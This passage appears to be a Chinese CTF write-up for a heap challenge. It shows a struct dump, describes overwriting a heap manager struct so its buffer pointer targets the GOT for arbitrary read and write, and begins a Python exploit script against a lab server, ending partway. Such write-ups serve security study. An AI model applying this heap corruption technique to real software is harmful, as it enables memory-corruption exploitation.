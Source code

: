 00000000 manager_info_struct struc ; (sizeof=0x10,)

00000000 mem_size        dd ?

00000004 in_use          dd ?

00000008 data_buff       dd ?                    ; offset

0000000C next            dd ?                    ; offset

00000010 manager_info_struct ends

通过前面的update可以修改后续heap中的manager_info_struct结构，将其置为可用，且data_buff指向got表，那么下次申请到的就是got的内容，此时就可以任意查询和修改了。

整个思路就是这样，关键得去布置内存，由于我信息泄露实现的比较早（有点多余了），导致最后到达got的时候，只是用了修改这个功能。

详细的布置方法见脚本：

 



```
__author__ = "pxx"
from zio import *
from pwn import *
import struct
#target = "./pwn1"
target = ("pwn.lab.seclover.com", 11111)
 
def get_io(target):
       r_m = COLORED(RAW, "green")
       w_m = COLORED(RAW, "blue")
       io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
       return io
 
def history(io):
       io.read_until("_CMD_$ ")
       io.writeline("history")
 
def t_reload(io, t_id):
       io.read_until("_CMD_$ ")
       io.writeline("reload")
       io.read_until("Reload history ID: ")
       io.writeline(str(t_id))
 
def clear(io):
       io.read_until("_CMD_$ ")
       io.writeline("clear")
 
def sort(io, seq):
       io.read_until("_CMD_$ ")
       io.writeline("sort")
       io.read_until("How many numbers do you want to sort: ")
       io.writeline(str(len(seq)))
       for item in seq:
              io.read_until("Enter a number: ")
              io.writeline(item)
 
def sort2(io, seq, count):
       io.read_until("_CMD_$ ")
       io.writeline("sort")
       io.read_until("How many numbers do you want to sort: ")
       io.writeline(str(count))
       for item in seq:
              io.read_until("Enter a number: ")
              io.writeline(item)
 
def t_exit(io):
```